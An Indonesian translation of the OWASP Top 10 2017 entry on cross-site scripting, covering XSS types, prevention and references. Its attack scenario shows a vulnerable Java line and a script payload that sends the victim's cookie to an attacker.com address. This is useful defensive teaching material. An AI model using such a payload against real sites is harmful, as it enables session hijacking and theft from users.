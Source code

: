 # A7:2017 Cross-Site Scripting (XSS)

| Agen ancaman / vektor serangan | Kelemahan Keamanan          | Dampak              |
| -- | -- | -- |
| Akses Lvl: Eksploitasi 3 | Prevalensi 3 : Deteksi 3 | Teknis 2 : Bisnis |
| Tool otomatis dapat  mendeteksi dan melakukan exploit pada semua tiga type XSS, and ada Framework eksploitasi yang tersedia secara gratis. | XSS adalah kerentanan paling umum kedua di OWASP Top 10, dan  masih ditemukan di sekitar dua pertiga dari semua aplikasi. Tool otomatis dapat menemukan beberapa kerentanan XSS secara otomatis, Khususnya dalam aplikasi pemrograman seperti PHP, J2EE / JSP, dan ASP.NET. | Dampak pada XSS untuk kategori medium untuk Reflected XSS dan DOM XSS dan Kritikal untuk stored XSS, dengan eksekusi kode jarak jauh di browser korban, seperti mencuri kredensial, sesi, atau mengirimkan malware ke korban |

## Apakah Aplikasi itu Rentan?

Ada Tiga Jenis XSS, biasanya menargetkan browser pengguna:

* **Reflected XSS**: Aplikasi atau API menyertakan masukan pengguna yang tidak divalidasi dan tidak lolos sebagai bagian dari keluaran HTML. Serangan yang berhasil memungkinkan penyerang mengeksekusi HTML dan JavaScript sewenang-wenang di browser korban. Biasanya pengguna perlu berinteraksi dengan beberapa tautan berbahaya yang mengarah ke laman yang dikendalikan penyerang, seperti situs web lubang air berbahaya, iklan, atau sejenisnya
* **Stored XSS**: Aplikasi atau API menyimpan masukan pengguna yang tidak dibersihkan yang dilihat di lain waktu oleh pengguna lain atau administrator. XSS yang disimpan sering dianggap sebagai risiko tinggi atau kritis.
* **DOM XSS**: Kerangka kerja JavaScript, aplikasi halaman tunggal, dan API yang secara dinamis menyertakan data yang dapat dikontrol penyerang ke halaman rentan terhadap DOM XSS. Idealnya, aplikasi tidak akan mengirim data yang dapat dikontrol penyerang ke JavaScript API yang tidak aman.
Serangan XSS termasuk pencurian sesi user, account takeover, _MFA bypass_, _DOM node replacement_ atau merubah tampilan website target (seperti panel login trojan), 
serangan terhadap browser pengguna seperti unduhan perangkat lunak berbahaya, pencatatan log kunci, dan serangan sisi klien lainnya.

## Bagaimana Cara Pencegahannya

Pencegahan XSS membutuhkan pemisahan pada data yang tidak terpecaya dari konten browser yang aktif. Ini dapat dicapai dengan:

* Menggunakan kerangka kerja yang secara otomatis lolos dari XSS berdasarkan desain, seperti Ruby on Rails terbaru, React JS. Pelajari batasan perlindungan XSS setiap framework dan tangani kasus penggunaan yang tidak tercakup dengan tepat.
* Mengeluarkan semua data yang tidak dipercaya berdasarkan konteks HTML (_body, attribute, JavaScript, CSS, atau URL)_ akan menutup celah Reflected and Stored XSS. Lihat OWASP XSS Prevention Cheat Sheet untuk detail dari teknik mengeluarkan data.
* Menerapkan pengkodean peka konteks saat memodifikasi dokumen browser di sisi klien bertindak melawan DOM XSS. Jika hal ini tidak dapat dihindari, teknik pelolosan sensitif konteks serupa dapat diterapkan ke API browser seperti yang dijelaskan di OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Memungkinkan [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)sebagai kontrol mitigasi pertahanan mendalam terhadap XSS. Ini efektif jika tidak ada kerentanan lain yang memungkinkan penempatan kode berbahaya melalui penyertaan file loka (e.g. path traversal menimpa atau pustaka yang rentan dari jaringan pengiriman konten yang diizinkan).

## Contoh Skenario Serangan

**Skenario #1**: Aplikasi menggunakan data tidak tepercaya dalam pembuatan kode HTML berikut tanpa validasi:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
The attacker modifies the ‘CC’ parameter in the browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Serangan ini disebabkan ID sesi korban untuk dikirim ke situs web penyerang, sehingga memungkinkan penyerang untuk membajak sesi pengguna saat ini.

**Note**: Penyerang dapat menggunakan XSS untuk mengalahkan pertahanan Cross-Site Request Forgery (CSRF) otomatis yang mungkin digunakan aplikasi

## Referensi

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
